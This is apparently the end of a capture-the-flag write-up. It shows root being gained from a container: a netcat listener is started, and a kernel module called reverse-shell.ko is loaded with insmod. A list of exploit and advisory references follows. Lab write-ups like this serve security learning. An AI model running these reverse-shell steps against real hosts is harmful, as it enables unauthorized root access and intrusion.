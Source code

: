 start listener on marcus session

```bash
nc -lnvp 9003
```

and execute command below in container for load our kernel module

```bash
insmod reverse-shell.ko
```

back again in marcus session will obtain root user

![](/assets/img/monitor/23.png)



## REFERENCESS

```bash
https://www.acunetix.com/vulnerabilities/web/wordpress-plugin-wp-with-spritz-local-remote-file-inclusion-1-0/32
https://www.exploit-db.com/exploits/44544
https://linuxconfig.org/how-to-transfer-data-over-the-network-with-nc-netcat-command-on-linux
https://www.tecmint.com/35-practical-examples-of-linux-find-command/
https://www.linuxsec.org/2016/10/basic-grep-command.html
https://linuxize.com/post/how-to-setup-ssh-tunneling/
https://www.rapid7.com/db/modules/exploit/linux/http/apache_ofbiz_deserialization/
https://www.cyberciti.biz/faq/add-remove-list-linux-kernel-modules/
```